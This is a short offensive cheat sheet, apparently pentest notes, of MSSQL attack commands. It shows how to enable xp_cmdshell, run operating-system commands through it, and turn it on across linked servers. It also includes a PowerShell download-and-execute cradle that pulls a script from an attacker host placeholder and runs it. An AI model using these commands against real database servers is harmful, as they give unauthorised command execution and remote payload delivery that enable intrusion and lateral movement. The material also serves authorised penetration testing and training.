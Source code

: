 ### enable xp_cmdshell SQL Server configuration
```
mssql> enable_xp_cmdshell
```

### execute shell command
```
mssql> EXEC xp_cmdshell <command>
```

### download string and invoke expression
```
mssql> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<lhost>/<file>.txt") | powershell -noprofile'
```

### enable xp_cmdshell on linked servers
```
mssql> EXEC('sp_configure ''show advanced options'',1; reconfigure;') AT [<fdqnRhost>]
mssql> EXEC('sp_configure ''xp_cmdshell'',1; reconfigure;') AT [<fdqnRhost>]
mssql> SELECT * FROM OPENQUERY("<fqdnRhost>", 'select * from sys.configuration where name = ''xp_cmdshell''')
```

